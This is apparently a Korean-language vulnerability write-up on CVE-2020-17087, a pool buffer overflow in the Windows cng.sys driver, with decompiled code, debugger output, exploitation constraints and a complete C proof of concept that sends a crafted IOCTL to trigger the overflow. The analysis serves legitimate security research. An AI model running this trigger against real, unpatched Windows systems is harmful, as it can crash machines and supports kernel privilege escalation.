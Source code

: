 ```yaml
---
layout: post
author: "smlijun"
title: CVE-2020-17087-Windows pool buffer overflow in cng.sys IOCTL
---
```




Introduction
---
Windows의 커널 암호화 드라이버인 `cng.sys`에서 발생한 buffer overflow 취약점 CVE-2020-17087을 분석하고 In the Wild에서 쓰였던 버그인 만큼 local privilege escalation까지 도달 할 수 있는 방법을 연구해보려고 한다. 분석은 `Windows 10 1909(OS build 18363.418)`에서 진행 하였다.

About CNG
---
[MSDN](https://docs.microsoft.com/en-us/windows/win32/seccng/about-cng)에 따르면 CNG는 기존의 `Cryto API`를 대체하기 위해서 만들어졌다고 한다. 또한 확장성이 좋게 설계 되었다고 한다. MSDN에서 여러 예제나 사용방법을 확인 할 수 있다.


The Vulnerability
---
bug class는 16-bit integer truncation로 인한 `buffer overflow`이다. 해당 취약점은은 IOCTL 0x390400 처리 중 `cng!CfgAdtpFormatPropertyBlock`에서 발생한다. 해당 루틴은 다음과 같은 call로 호출된다. 다른 드라이버들 처럼 IOCTL에 따라 dispatch하는 루틴을 쉽게 확인 할 수 있다.

`call stak`
```
cng!CfgAdtpFormatPropertyBlock
cng!CfgAdtReportFunctionPropertyOperation+0x23e
cng!BCryptSetContextFunctionProperty+0x3a2
cng!_ConfigurationFunctionIoHandler+0x3bd5c
cng!ConfigFunctionIoHandler+0x4e6
cng!ConfigIoHandler_Safeguarded+0xd2
cng!CngDeviceControl+0x97
cng!CngDispatch+0x8a
```
`cng!CfgAdtpFormatPropertyBlock code snippet`
```c
__int64 __fastcall CfgAdtpFormatPropertyBlock(char *SourceBuffer, unsigned __int16 buffersize, __int64 OutputBuffer)
{
 ....
  v3 = 0;
  v6 = SourceBuffer;
  if ( SourceBuffer && buffersize && OutputBuffer )
  {
    v7 = 6 * buffersize;
    v8 = BCryptAlloc((unsigned __int16)(6 * buffersize)); //[+] overflow here
    v9 = v8;
    if ( v8 )
    {
      v10 = (_WORD *)v8;
      if ( buffersize )
      {
        v11 = buffersize;
        do
        {
          *v10 = byte_1C009CE70[(unsigned __int64)(unsigned __int8)*v6 >> 4];
          v12 = v10 + 1;
          v13 = *v6++;
          *v12++ = byte_1C009CE70[v13 & 0xF];
          *v12 = 32;
          v10 = v12 + 1;
          --v11;
        }
        while ( v11 );
...
  return v3;
}
```
위 로직을 보면 `BcryptAlloc`에서 integer overflow가 발생한다. `buffer size`는 uint16 type으로 선언 되어있으나 `buffersize * 6`을 수행했을때 0x10002이나 타입이 uint16이므로 0x2만 남게된다. 아래는 디버깅 결과이다.
```
rax=0000000000005556 rbx=0000000000000000 rcx=0000000000000002
rdx=0000000000002aab rsi=ffffe105fd086958 rdi=0000000000000002
rip=fffff805705328ca rsp=ffffe105fd0868e0 rbp=0000000000002aab
 r8=ffffe105fd086958  r9=ffffe105fd086e60 r10=0000000000000004
r11=0000000000000000 r12=ffffa582fe1f9000 r13=ffffe105fd086ee0
r14=ffffa582fe1f9000 r15=ffffe105fd086eb8
iopl=0         ov up ei pl nz na pe cy
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040a03
cng!CfgAdtpFormatPropertyBlock+0x4e:
fffff805`705328ca e82105fbff      call    cng!BCryptAlloc (fffff805`704e2df0)
```
`BcryptoAlloc()`의 인자가 2로 세팅된것을 확인 할 수 있다.
추가적으로 overflow가 발생한 상황에서 우리가 원하는 값을 완전히 적을 수 없다. `do-while`로 감싸진 부분을 보면 `input buffer`로 들어온 값을 특정 연산을 수행한 후에 `output buffer`에 적는 것을 확인 할 수 있다.

PoC
---
```c
#pragma comment(lib, "ntdll")

#include <cstdio>
#include <windows.h>

int main() {
    HANDLE hCng = CreateFileA("\\\\.\\GLOBALROOT\\Device\\Cng",
        GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    if (hCng == NULL) {
        printf("[-] Failed to open \\Device\\Cng: %u\n", GetLastError());
        return 1;
    }

    printf("[+] \\Device\\Cng opened, handle: %p\n", hCng);

    CONST DWORD DataBufferSize = 0x2AAB;
    CONST DWORD IoctlSize = 4096 + DataBufferSize;
    BYTE* IoctlData = (BYTE*)HeapAlloc(GetProcessHeap(), 0, IoctlSize);

    RtlZeroMemory(IoctlData, IoctlSize);

    *(DWORD*)&IoctlData[0x00] = 0x1A2B3C4D;
    *(DWORD*)&IoctlData[0x04] = 0x10400;
    *(DWORD*)&IoctlData[0x08] = 1;
    *(ULONGLONG*)&IoctlData[0x10] = 0x100;
    *(DWORD*)&IoctlData[0x18] = 3;
    *(ULONGLONG*)&IoctlData[0x20] = 0x200;
    *(ULONGLONG*)&IoctlData[0x28] = 0x300;
    *(ULONGLONG*)&IoctlData[0x30] = 0x400;
    *(DWORD*)&IoctlData[0x38] = 0;
    *(ULONGLONG*)&IoctlData[0x40] = 0x500;
    *(ULONGLONG*)&IoctlData[0x48] = 0x600;
    *(DWORD*)&IoctlData[0x50] = DataBufferSize; // OVERFLOW
    *(ULONGLONG*)&IoctlData[0x58] = 0x1000;
    *(ULONGLONG*)&IoctlData[0x60] = 0;
    RtlCopyMemory(&IoctlData[0x200], L"FUNCTION", 0x12);
    RtlCopyMemory(&IoctlData[0x400], L"PROPERTY", 0x12);

    ULONG_PTR OutputBuffer = 0;
    DWORD BytesReturned;
    BOOL Status = DeviceIoControl(
        hCng,
        0x390400,
        IoctlData,
        IoctlSize,
        &OutputBuffer,
        sizeof(OutputBuffer),
        &BytesReturned,
        NULL
    );

    printf("[+] Ioctl sent, Status: %d, OutputBuffer: %zx\n", Status, OutputBuffer);

    HeapFree(GetProcessHeap(), 0, IoctlData);
    CloseHandle(hCng);

    return 0;
}
```

Exploit Condition
---
해당 취약점을 사용해서 exploit을 수행해기 위해서는 다음과 같은 제약 조건이 있다.
1. overflow는 0x10000~0x5FFFA byte만큼 덮어 쓸 수 있다.
2. overflow가 발생하는 buffer는 `NonPagedPoolNx`를 통해 할당되며 0x2~0xFFFF사이의 크기를 가진다.
3. 덮여 쓰여지는 값은 `XX 00 XX 00 20 00`의 형태를 가지며 XX는 0x30~0x39, 0x61~0x66의 범위를 가진다.
특히 3번조건이 exploit을 작성하는데 있어서 큰 제약사항이다. 

The patch
---

